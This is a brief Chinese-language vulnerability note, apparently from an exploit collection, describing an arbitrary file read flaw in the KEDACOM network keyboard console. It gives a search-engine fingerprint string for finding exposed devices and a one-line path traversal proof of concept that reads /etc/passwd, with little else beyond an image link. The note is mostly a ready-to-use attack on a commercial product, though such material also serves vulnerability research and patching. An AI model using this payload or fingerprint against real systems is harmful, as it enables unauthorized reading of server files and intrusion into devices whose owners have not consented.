

# 科达 网络键盘控制台 任意文件读取漏洞

## 漏洞描述

KEDACOM 网络键盘控制台存在任意文件读取漏洞，攻击这通过漏洞可以读取服务器任意信息

## 漏洞影响

```
KEDACOM 网络键盘控制台
```

## 网络测绘

```
"网络键盘控制台"
```

## 漏洞复现

登录页面



验证POC

```
/../../../../../../../../etc/passwd
```

